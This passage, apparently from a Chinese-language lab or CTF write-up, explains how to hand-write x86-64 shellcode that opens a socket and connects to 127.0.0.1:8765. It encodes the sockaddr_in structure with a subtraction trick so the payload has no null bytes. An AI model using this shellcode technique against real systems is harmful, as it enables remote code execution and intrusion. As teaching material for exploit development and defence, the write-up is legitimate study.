             xor rdx, rdx

            syscall
            mov r8, rax
        """
        ```
    2. Connect
        這邊主要需要觀察protocol怎麼包，首先我們知道第一個參數是存\$rdi，也就是存上一個syscall的return value存起來的\$r8，至於\$rsi的info address，其內容應該怎麼包含甚麼呢?我們先看一下[linux x86-64 syscall](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)中的說明
        ![image](https://hackmd.io/_uploads/BktiY2e8a.png)
        他所需的是`struct sockaddr_in info;`，而實際去看看sockaddr_in會發現他的結構如下([csdn post](https://blog.csdn.net/dongyanxia1000/article/details/80683738)):
        ```
        struct sockaddr_in {
                short   sin_family;         //address family
                u_short sin_port;           //16 bit TCP/UDP port number
                struct  in_addr sin_addr;   //32 bit IP address
                char    sin_zero[8];        //not use, for align
        };
        ```
        就會對應到底下註解的地方，包含IP / Post / Internet Family之類的，所以我們就可以按照這個structure建構出來，short是2 bytes，而根據前面的byte code會發現`AF_INET`是\x0002，也就是兩個bytes，第二個是port也是兩個bytes，8765轉成hex就是0x223d；最後一個是IP address，總共是4 bytes的in_addr structure，如果想詳細了解in_addr的結構可以看[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/ns-winsock2-in_addr?source=docs)，但具體來說就是把`127.0.0.1`→`7f000001`，所以全部貼在一起並且轉成little endian的話就會變成==0x100007f3d220002==，但有一個非常大的問題，如果直接把該值push進到stack並取\$rsp放到\$rsi的話，整個流程會有太多的\x00，因此@cs-otaku提供了一個非常有創意的想法，就直接用扣的，反正只要最後放到stack的值是對的就好了
        ```python
        # struct sockaddr_in info;
        # info.sin_family = AF_INET;
        # info.sin_addr.s_addr = inet_addr("127.0.0.1");
        # info.sin_port = htons(8765);
        # connect(fd, (struct sockaddr *)&info, sizeof(info));
        connect = """
            xor rax, rax
            mov al, 0x2a

            mov rdi, r8

            mov rsi, 0xffffffffffffffff
            mov r9, 0xfeffff80c2ddfffd
            sub rsi, r9
            push rsi
            mov rsi, rsp
